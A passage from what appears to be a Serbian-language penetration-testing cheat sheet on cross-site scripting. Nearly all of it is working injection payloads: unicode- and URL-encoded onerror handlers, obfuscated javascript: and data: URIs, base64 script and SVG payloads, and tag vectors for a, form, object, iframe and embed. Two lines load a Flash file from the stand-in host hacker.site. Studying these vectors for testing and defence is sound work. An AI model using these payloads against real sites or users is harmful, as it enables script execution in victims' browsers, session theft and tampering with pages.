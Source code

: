 ```javascript
//For some reason you can use unicode to encode "alert" but not "(1)"
<img src onerror=\u0061\u006C\u0065\u0072\u0074(1) />
<img src onerror=\u{61}\u{6C}\u{65}\u{72}\u{74}(1) />
```

### Posebni protokoli unutar atributa

Ovde možete koristiti protokole **`javascript:`** ili **`data:`** na nekim mestima da **izvršite proizvoljan JS kod**. Neke će zahtevati korisničku interakciju, a neke neće.

```javascript
javascript:alert(1)
JavaSCript:alert(1)
javascript:%61%6c%65%72%74%28%31%29 //URL encode
javascript&colon;alert(1)
javascript&#x003A;alert(1)
javascript&#58;alert(1)
&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3aalert(1)
java        //Note the new line
script:alert(1)

data:text/html,<script>alert(1)</script>
DaTa:text/html,<script>alert(1)</script>
data:text/html;charset=iso-8859-7,%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
data:text/html;charset=UTF-8,<script>alert(1)</script>
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
data:text/html;charset=thing;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg
data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==
```

**Mesta gde možete ubaciti ove protokole**

**Uopšteno**, `javascript:` protokol se može **koristiti u bilo kom tagu koji prihvata atribut `href`** i u **većini** tagova koji prihvataju **atribut `src`** (ali ne `<img`)

```markup
<a href="javascript:alert(1)">
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<form action="javascript:alert(1)"><button>send</button></form>
<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
<object data=javascript:alert(3)>
<iframe src=javascript:alert(2)>
<embed src=javascript:alert(1)>

<object data="data:text/html,<script>alert(5)</script>">
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>
<iframe src="data:text/html,<script>alert(5)</script>"></iframe>

//Special cases
<object data="//hacker.site/xss.swf"> .//https://github.com/evilcos/xss.swf
<embed code="//hacker.site/xss.swf" allowscriptaccess=always> //https://github.com/evilcos/xss.swf
<iframe srcdoc="<svg onload=alert(4);>">
```
